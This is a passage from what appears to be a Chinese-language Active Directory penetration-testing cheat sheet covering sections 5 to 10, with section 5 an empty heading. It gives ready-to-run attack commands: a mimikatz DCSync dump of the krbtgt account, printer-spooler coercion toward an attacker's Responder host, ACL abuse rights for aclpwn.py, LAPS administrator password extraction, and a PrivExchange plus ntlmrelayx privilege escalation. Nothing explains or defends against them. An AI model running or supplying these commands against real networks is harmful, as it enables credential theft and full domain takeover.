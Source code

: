 

## 5.基于资源的约束委派





## 6.dcsync

~~~ABAP
lsadump::dcsync /domain:htb.local /user:krbtgt # Administrators, Domain Admins, Enterprise Admins  组下的账户都行
~~~



##  7.打印机 SpoolService 漏洞利用

~~~ABAP
rpcdump.py <domain>/<user>:<password>@<domain_server> | grep MS-RPRN
printerbug.py '<domain>/<username>:<password>'@<Printer IP> <RESPONDERIP>
~~~



## 8.AD域ACL攻击(aclpwn.py)

~~~ABAP
GenericAll on User
GenericAll on Group
GenericAll / GenericWrite / Write on Computer
WriteProperty on Group
Self (Self-Membership) on Group
WriteProperty (Self-Membership)
ForceChangePassword
WriteOwner on Group
GenericWrite on User
WriteDACL + WriteOwner
~~~



## 9.获取LAPS管理员密码

~~~ABAP
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize

foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
~~~

## 10.privexchange漏洞

~~~ABAP
python privexchange.py -ah <attacker_host_or_ip> <exchange_host> -u <user> -d <domain> -p <password>

ntlmrelayx.py -t ldap://<dc_fqdn>--escalate-user <user>
~~~
